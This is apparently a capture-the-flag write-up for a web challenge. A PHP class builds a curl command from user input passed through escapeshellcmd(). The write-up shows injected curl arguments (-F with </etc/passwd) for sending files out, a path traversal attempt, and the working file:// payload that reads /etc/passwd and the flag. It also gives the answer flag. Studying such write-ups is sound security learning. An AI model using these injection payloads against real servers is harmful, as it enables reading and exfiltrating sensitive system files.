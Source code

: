 
# Solution

Input passed to the backend, used as parameter for the Command model.

```php
class CommandModel
{
    public function __construct($url)
    {
        $this->command = "curl -sL " . escapeshellcmd($url);
    }

    public function exec()
    {
        exec($this->command, $output);
        return $output;
    }
}
```

Input is escaped using the *escapeshellcmd()* function, then curl command is executed.  

Reference :  
1. https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md#known-bypassesexploits
2. https://gtfobins.github.io/gtfobins/curl/

Use curl arguments to exfiltrate the flag somehow 

Tried:
- `http://127.0.0.1/ -F "console-output=</etc/passwd"`. Trying to dump password file and print it to stdout. Not working.
- `http://127.0.0.1/../../../../../etc/passwd`.   Nope.

This actually works in locale. It creates a request and embeds the content of /etc/passwd to the server
`curl -sL http://127.0.0.1 -F "prova=</etc/passwd"`


### Solution
Easier than what i was looking for.

We have data exfiltration on the server. File read command is 
```
curl -sL file://127.0.0.1/etc/passwd`
```

Thus our input is `file://127.0.0.1/etc/passwd`.  
We actually get the content of the */etc/passwd* file.


To get the flag:
`file://127.0.0.1/flag`

flag: `CHTB{f1le_r3trieval_4s_a_s3rv1ce}`

